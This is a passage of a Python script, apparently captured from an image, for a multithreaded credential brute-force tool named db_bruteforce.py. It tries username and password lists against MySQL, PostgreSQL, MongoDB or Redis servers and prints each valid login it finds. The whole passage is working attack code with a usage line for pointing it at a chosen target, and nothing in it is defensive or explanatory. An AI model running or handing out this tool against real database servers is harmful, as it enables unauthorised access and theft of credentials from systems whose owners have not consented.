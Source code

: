 ```bash
                host=self.target,
                port=self.port,
                password=password,
                socket_connect_timeout=5
            )
            r.ping()
            return True
        except:
            return False
    
    def test_credentials(self, username, password):
        """Test credentials based on database type"""
        if self.db_type == 'mysql':
            return self.test_mysql(username, password)
        elif self.db_type == 'postgresql':
            return self.test_postgresql(username, password)
        elif self.db_type == 'mongodb':
            return self.test_mongodb(username, password)
        elif self.db_type == 'redis':
            return self.test_redis(username, password)
        else:
            return False
    
    def worker(self):
        """Worker thread"""
        while not self.queue.empty():
            try:
                username, password = self.queue.get(timeout=1)
                
                if self.test_credentials(username, password):
                    print(f"[SUCCESS] {self.db_type}://{username}:{password}@{self.target}:{self.port}")
                    self.found_credentials.append((username, password))
                else:
                    print(f"[FAILED] {username}:{password}")
                
                self.queue.task_done()
            except:
                break
    
    def start_attack(self):
        """Start brute force attack"""
        print(f"Starting {self.db_type} brute force against {self.target}:{self.port}")
        
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker)
            t.daemon = True
            t.start()
            threads.append(t)
        
        self.queue.join()
        
        print(f"Attack completed. Found {len(self.found_credentials)} valid credentials.")

if __name__ == "__main__":
    if len(sys.argv) != 7:
        print("Usage: python3 db_bruteforce.py <target> <port> <type> <users_file> <passwords_file> <threads>")
        print("Types: mysql, postgresql, mongodb, redis")
        sys.exit(1)
    
    target, port, db_type, users_file, passwords_file, threads = sys.argv[1:7]
```